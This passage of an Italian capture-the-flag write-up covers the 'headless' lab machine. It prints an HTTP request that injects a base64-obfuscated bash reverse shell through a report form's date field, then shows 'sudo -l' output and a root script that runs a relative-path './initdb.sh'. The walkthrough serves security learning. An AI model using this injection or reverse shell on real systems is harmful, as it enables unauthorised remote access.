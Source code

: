 Modificando la richiesta quando clicchiamo su **Generate report** possiamo ottenere remote code execution.

```text
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.11.8:5000/dashboard
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://10.10.11.8:5000
Connection: close
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1
date=2023-09-15;echo "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjkvOTAwMSAwPiYx" | base64 -d | bash
```

Otteniamo una shell.

## Shell come dvir

Attraverso `sudo -l` possiamo vedere che possiamo runnare uno script come root.

```shell
dvir@headless:~/app$ sudo -l
Matching Defaults entries for dvir on headless:
 env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
 use_pty
User dvir may run the following commands on headless:
 (ALL) NOPASSWD: /usr/bin/syscheck
```

Leggiamo cosa fa lo script.

```shell
dvir@headless:~/app$ cat /usr/bin/syscheck

#!/bin/bash
if [ "$EUID" -ne 0 ]; then
exit 1
fi
last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + |
/usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"
disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"
load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
 /usr/bin/echo "Database service is not running. Starting it..."
 ./initdb.sh 2>/dev/null
else
 /usr/bin/echo "Database service is running."
fi
exit 0
```

